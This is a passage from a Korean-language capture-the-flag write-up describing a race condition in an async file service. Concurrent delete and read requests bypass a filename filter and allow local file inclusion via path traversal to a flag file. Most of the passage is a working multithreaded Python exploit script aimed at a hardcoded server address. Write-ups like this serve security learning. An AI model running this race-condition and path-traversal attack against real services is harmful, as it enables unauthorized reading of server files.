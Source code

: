 ```python
        res = await self.filtercheck()
        if res == True:
            await aiofilesos.remove("./uploads/{}".format(filename))
            return "Delete Success!!"
        else:
            return res
```

`read()`에서 필터링 체크는 `os.path.splitext()`로 `filename`을 분리한 `self.filename`으로 하는데, 파일을 오픈하고 읽는 것은 `filename`으로 한다.

마침 `util.py`에 선언된 함수들이 전부 `async(비동기)`로 처리하도록 선언됐고 레이스 컨디션을 시도할 수 있다.

레이스 컨디션이 트리거하기위해 `delete()`와 `read()`를 동시에 접근하여 필터링 체크 우회하는 동시에 LFI 수행하는 방식으로 공격을 진행했다.

### exploit

```python
#!/usr/bin/env python3

import requests
import threading
from urllib.parse import quote

# HOST = "http://192.168.35.222:31337/"
HOST = "http://20.214.140.79:31337/"

def read():
    url = HOST + "read"
    data = {
        "filename": "../../../../../flag"
    }

    resp = requests.post(url, data=data)
    if "Filtered.." not in resp.text:
        print (resp.text)

def write():
    url = HOST + "write"
    dummy = "a"*100
    resp = requests.post(url, files={"hashcode.png": dummy})
    print (resp.text)

def delete():
    url = HOST + "/delete"
    data = {
        "filename": "eins"
    }
    resp = requests.post(url, data=data)
    # print (resp.text)

# write()
# read()
# delete()

def run1():
    while True:
        delete()
def run2():
    while True:
        read()

for i in range(10):
    T = threading.Thread(target=run1, args=())
    T.start()
```